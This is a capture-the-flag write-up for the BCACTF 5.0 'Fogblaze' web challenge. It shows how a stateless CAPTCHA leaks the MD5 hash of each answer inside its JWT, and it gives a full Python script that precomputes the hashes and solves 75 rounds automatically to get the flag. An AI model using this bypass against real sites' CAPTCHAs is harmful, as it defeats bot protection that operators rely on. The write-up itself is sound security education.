

# BCACTF 5.0

## Fogblaze

> Can you bypass this website's new stateless CAPTCHA system?
> 
> Author: Thomas
> 

Tags: _web__

## Solution
For this challenge only a webpage is given. If we open it we need to solve a [`captcha challenge`](https://en.wikipedia.org/wiki/CAPTCHA) with two steps. After this two links are displayed: `Lorem Ipsum` and `The Flag`. The second one sounds good lets go to it.. Another captcha, but this time with 75 steps.



The captcha challenge has a time out, so we never can reach the last step entering the values manually. So what can we do? First lets inspect the source code, how things are wired together.

The source obviously is "obfuscated" but we select the `Submit` element and check what code is bound to the `click` event. Lets set a breakpoint so we can debug the code.

```js
, V = async()=>{
        !u.length || s.done || (await P({
            captchaToken: s.captchaToken,
            word: u
        }),
        t(5, u = ""),
        s.done && (t(2, h = !1),
        f = setTimeout(()=>{
            f = null,
            ue(d + "?token=" + s.captchaToken)
        }
        , 1e3)))
    }
```

The function first calls function `P` with `{captchaToken: s.captchaToken, word: u}`. The word contains the user input and the token is a `jwt`, we inspect in a minute. Function `P` does a `POST` request to `/captcha`.

```js
, P = async r=>{
        t(6, k = !0),
        t(7, D = null);
        const m = await fetch("/captcha", {
            method: "POST",
            body: JSON.stringify(r),
            headers: {
                "content-type": "application/json"
            }
        })
          , E = await m.json().catch(()=>({
            error: m.statusText ?? `Error ${m.status}`
        }));
        if (t(6, k = !1),
        !m.ok) {
            t(7, D = E.error);
            return
        }
        E.done ? (t(4, s.captchaToken = E.captchaToken, s),
        t(4, s.done = !0, s)) : t(4, s = E)
    }
```

Now we look at the token, putting it to [`jwt.io`](https://jwt.io/) gives us the following informations. We have a capture id, the route which we want to enter and a challenge id. Also how many challenges where solved already, how many challenges we need to solve in total, if we are done and the expiry information. The token is signed, so forging a fake token is probably not an option here.

```json
{
  "captchaId": "9b32058d-a8f7-44f2-a56a-0e15ba6f6041",
  "routeId": "/flag",
  "challengeId": "0a9e5623854760fafc65a22a5401fa4c",
  "solved": 0,
  "total": 75,
  "done": false,
  "iat": 1718138779,
  "exp": 1718138839
}
```

Lets inspect what happens when the user wants to start solving the challenge (by clicking `I am not a robot`). Save procedure as before, we select the checkbox element and check what function is bound to the click event.

```js
, M = async()=>{
        s.done || (await P({
            routeId: d
        }),
        t(2, h = !0))
    }
```

Again function `P` is called, but with different arguments: `{ routeId: d }`. Looks like the whole logic is handled by a single endpoint. The plan is to automate the process, we need a script that calls to `/captcha` with `{ routeId: '/flag' }` to initiate the process. And then does 75 calls to `/captcha` with `{captchaToken: currentToken, word: solution}`. The next token will always be given as result to the call, so the captcha system knows we solved the previous step and didn't take shortcuts. The only thing left is to find the correct solution.

We have one more piece if information in the token, that is the `challengeId`. Its a hash and changes for every challenge. After debugging a while it's clear that the challenge id is just the md5 hash of the 4 character word we need to enter. Since the word always has 4 characters and the alphabet used is uppercase A-Z we can just precompute all the hashvalues for every possible combination.

```python
import itertools
possible_challenges = itertools.product(string.ascii_uppercase, repeat=4)
capture_ids = [(''.join(p), hashlib.md5(''.join(p).encode()).hexdigest()) for p in possible_challenges]
```

This gives us `456976` combinations of a challenge word and the md5 hash.

```bash
AAAA 098890dde069e9abad63f19a0d9e1f32
AAAB 7d578bb564c511ca301f558528bde644
AAAC a1492afabde918a47da2a2c5b1dba15c
AAAD a43eefb5352d17b8de3a354b017c4021
AAAE 0459e61e3c13af7a8443fa076710870d
AAAF fdb8462e0c867d910f5818aa7eb4209b
AAAG e9b42bc37031ebb041dd88cab85c1735
AAAH c692c208cd6f0276ffba6c9637efcaf9
AAAI e0523bb0fa5c7d0576ca82b5f2735810
AAAJ e1e29ba38827d12562a402984e932afb
...
```

The next part is trivial, we just need to initiate the process, parse the token and get the challenge id. Then search to corresponding word and send it as the answer and repeat this step 75 times.

```python
import requests, json, itertools, string, hashlib
from base64 import b64decode

# precompute the challenge ids
possible_challenges = itertools.product(string.ascii_uppercase, repeat=4)
capture_ids = [(''.join(p), hashlib.md5(''.join(p).encode()).hexdigest()) for p in possible_challenges]


# initiate the capture process
resp = requests.post('http://challs.bcactf.com:30311/captcha?destination=/flag', json={'routeId':'/flag'})
resp = json.loads(resp.text)

# now solve all the captcha challenges
while not resp["done"]:
    print(f"Solved {resp['solved']} of {resp['total']} challenges")

    # extract the challenge id and search to corresponding word
    token_data = json.loads(b64decode(resp["captchaToken"].split(".")[1].encode() + b"=="))
    challenge_id = token_data['challengeId']

    print(f"searching word for {challenge_id}...", end="")
    captcha_word = ""
    for _id in capture_ids:
        if _id[1] == challenge_id:
            captcha_word = _id[0]
            break

    print(f"found {captcha_word}")

    # now send the answer and request the next challenge
    data = {
        "captchaToken" : resp["captchaToken"],
        "word": captcha_word
    }
    resp = requests.post("http://challs.bcactf.com:30311/captcha", json=data)
    resp = json.loads(resp.text)

# if we are done, fetch the /flag endpoint with the last token
resp = requests.get("http://challs.bcactf.com:30311/flag?token=" + resp["captchaToken"])
print(resp.text)
```

Running this script gives us finally the flag.

```bash
searching word for 15e4ee7339db1ed22dae64f97e7c0eb5...found FSZJ
Solved 70 of 75 challenges
searching word for 6a7641fbfc44628d12c12f59d6395318...found HTTV
Solved 71 of 75 challenges
searching word for 936a485601bc514a98a78eb269d0c4cb...found RPRZ
Solved 72 of 75 challenges
searching word for 30dac723f194269d264592d59767cc57...found MMBZ
Solved 73 of 75 challenges
searching word for 8565ded22622e14cd4606843e3558b31...found AIEF
Solved 74 of 75 challenges
searching word for 81fa661f3ef6b4e91bb1677c40d8932a...found QIJW
...
<div style="display: contents">  <div class="p-3"><h1 data-svelte-h="svelte-8wkp5b">The Flag</h1> <p>bcactf{b33p_B0oP_iM_a_B0t_1b728b571b9a}</p></div>
...
```

Flag `bcactf{b33p_B0oP_iM_a_B0t_1b728b571b9a}`